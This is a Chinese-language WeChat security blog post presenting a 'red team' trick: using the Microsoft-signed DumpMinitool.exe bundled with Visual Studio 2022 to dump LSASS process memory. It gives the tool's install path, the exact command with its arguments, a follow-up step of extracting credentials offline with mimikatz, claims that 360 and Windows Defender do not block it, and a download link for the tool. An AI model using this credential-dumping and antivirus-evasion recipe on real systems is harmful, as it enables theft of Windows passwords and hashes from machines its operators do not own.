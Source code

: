 #  红队工具 | Visual Studio2022微软白名单免杀dump lsass的免杀工具

HACK学习君  [ HACK学习君 ](javascript:void\(0\);)

**HACK学习君** ![]()

微信号 XHacker1961

功能介绍
HACK学习，专注于网络安全攻防与黑客精神，分享技术干货，代码审计，安全工具开发，实战渗透，漏洞挖掘，网络安全资源分享，为广大网络安全爱好者和从业人员提供一个交流学习分享的平台

____

__

收录于话题 #安全干货 21个

消息来源推特，推特博主：mr.d0x

  * 

    
    
    https://twitter.com/mrd0x/status/1511415432888131586?s=20&t=twOtT_clemvEYGQ9YdZ02w

可以自行安装Visual Studio2022，然后访问路径，把工具拖出来使用即可，也可以直接在文末获取下载地址  

  

![](https://gitee.com/fuli009/images/raw/master/public/20220412210402.png)

  

转储 LSASS，该工具文件路径：

  * 

    
    
    C:\Program Files\Microsoft Visual Studio\2022\Community\Common7\IDE\Extensions\TestPlatform\Extensions

文件名：DumpMinitool.exe

![](https://gitee.com/fuli009/images/raw/master/public/20220412210415.png)

参数区分大小写  

使用命令：

  *   *   *   * 

    
    
    DumpMinitool.exe --file dump.txt --processId xxx --dumpType Full--file 输出的路径--processId lsass.exe进程的ID--dumpType 方式

查看lsass进程ID

![](https://gitee.com/fuli009/images/raw/master/public/20220412210417.png)

dump完成后，再使用mimikatz进行离线解密即可  

![](https://gitee.com/fuli009/images/raw/master/public/20220412210418.png)

mimikatz

![](https://gitee.com/fuli009/images/raw/master/public/20220412210420.png)

微软的数字签名

![]()

  

免杀测试：360和Win10自带的defender杀软均不拦截。

  

沙箱检测

![](https://gitee.com/fuli009/images/raw/master/public/20220412210421.png)

微步在线  

![](https://gitee.com/fuli009/images/raw/master/public/20220412210423.png)

  

![](https://gitee.com/fuli009/images/raw/master/public/20220412210425.png)  

  

 **下载地址：**

 **  
**

链接：https://pan.baidu.com/s/18IRSjJaM4d2fwjmK9zfQFg

提取码：tfz4

 **  
**

 **点赞，转发，在看**

  

![](https://gitee.com/fuli009/images/raw/master/public/20220412210426.png)

预览时标签不可点

收录于话题 #

 个

上一篇 下一篇

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

